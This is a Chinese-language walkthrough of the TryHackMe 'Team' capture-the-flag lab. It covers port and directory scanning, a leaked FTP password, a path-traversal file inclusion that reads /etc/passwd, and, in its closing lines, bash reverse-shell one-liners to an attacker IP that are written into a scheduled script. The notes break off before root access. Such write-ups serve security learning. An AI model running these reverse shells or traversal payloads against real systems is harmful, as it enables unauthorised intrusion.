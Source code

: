 # Team
平台：tryhackme
难度：easy

### 扫描

**快速扫描**
```
sudo nmap -Pn --min-rate 10000 -p- 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
110/tcp open  pop3
```

**版本扫描**
```
sudo nmap -p 21,22,25,80,110 -Pn -sC -sV -O 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE VERSION
21/tcp  open  ftp     vsftpd 3.0.3
22/tcp  open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 79:5f:11:6a:85:c2:08:24:30:6c:d4:88:74:1b:79:4d (RSA)
|   256 af:7e:3f:7e:b4:86:58:83:f1:f6:a2:54:a6:9b:ba:ad (ECDSA)
|_  256 26:25:b0:7b:dc:3f:b2:94:37:12:5d:cd:06:98:c7:9f (ED25519)
25/tcp  open  smtp?
|_smtp-commands: Couldn't establish connection on port 25
80/tcp  open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works! If you see this add 'te...
110/tcp open  pop3?
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP|general purpose
Running: Actiontec embedded, Linux 2.4.X
OS CPE: cpe:/h:actiontec:mi424wr-gen3i cpe:/o:linux:linux_kernel cpe:/o:linux:linux_kernel:2.4.37
OS details: Actiontec MI424WR-GEN3I WAP, DD-WRT v24-sp2 (Linux 2.4.37)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

**漏洞扫描**
```
sudo nmap -p 21,22,25,80,110 --script=vuln 10.10.248.178
```
扫描结果
```
PORT    STATE SERVICE
21/tcp  open  ftp
22/tcp  open  ssh
25/tcp  open  smtp
80/tcp  open  http
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
110/tcp open  pop3
```

**gobuster扫描**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.248.178/ -t 30
```
扫不到。(也不是说扫不到，只是结果没有参考意义。)

- 21端口的ftp不能匿名登录
- 80端口是默认的apache2页面
- 默认页面的源代码有一句话，大致意思就是把team.thm添加到hosts里
- 再次访问http://team.thm，可以进到一个新的页面。
- 这里出现了域名，可以对其进行域名爆破

**对team.thm进行爆破**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://team.thm/ -t 30
```
结果：
```
/images               (Status: 301) [Size: 305] [--> http://team.thm/images/]
/scripts              (Status: 301) [Size: 306] [--> http://team.thm/scripts/]
/assets               (Status: 301) [Size: 305] [--> http://team.thm/assets/]
```
**对scripts目录进行二次爆破**
```
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://team.thm/scripts/ -t 30 -x php,txt,html
```
输出
```
/.php                 (Status: 403) [Size: 273]
/.html                (Status: 403) [Size: 273]
/script.txt           (Status: 200) [Size: 597]
```
查看`http://team.thm/scripts/script.txt`，发现有一句`Note to self had to change the extension of the old "script" in this folder, as it has creds in`，等于说这里有个old的script文件里面有用户的凭据。
文件script.old：
```
read -p "Enter Username: " ftpuser
read -sp "Enter Username Password: " T3@m$h@r3
```
登陆ftp试试：

ftp登录的时候看着点，有一句话：Remote system type is UNIX.Using binary mode to transfer files.
需要转换为ascii模式：
```
ftp>ascii
```
才能使用命令。
有个文件:
Dale
        I have started coding a new website in PHP for the team to use, this is currently under development. It can be
found at ".dev" within our domain.

Also as per the team policy please make a copy of your "id_rsa" and place this in the relevent config file.

Gyles


VHOST扫描：
```
gobuster vhost -u http://team.thm/ -w deepmagic.com-prefixes-top50000.txt -k --append-domain
```
扫出来了dev.team.thn是200，加到hosts里，访问一下
`http://dev.team.thm/`点一下页面的链接变为`http://dev.team.thm/script.php?page=teamshare.php`
根据提示这个地方可以变为`http://dev.team.thm/script.php?page=../../../etc/passwd`(文件包含漏洞)，这个地方输出目标系统的/etc/passwd。
    
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
lxd:x:105:65534::/var/lib/lxd/:/bin/false
uuidd:x:106:110::/run/uuidd:/usr/sbin/nologin
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:109:1::/var/cache/pollinate:/bin/false
dale:x:1000:1000:anon,,,:/home/dale:/bin/bash
gyles:x:1001:1001::/home/gyles:/bin/bash
ftpuser:x:1002:1002::/home/ftpuser:/bin/sh
ftp:x:110:116:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
```
可以看到使用/bin/bash的两个低权限用户gyles和dale

使用同样的方法读出user.txt:
```
../../../../home/dale/user.txt
```
但是root.txt不能直接读出来，还是要想办法拿到反shell



echo "bash -i >& /dev/tcp/10.17.6.249/1234 0>&1" > /home/gyles/admin_checks

python3 -c 'import pty;pty.spawn("/bin/bash")'

sudo sh -c 'echo "bash -i >& /dev/tcp/10.17.6.249/1234 0>&1" > /home/gyles/admin_checks'
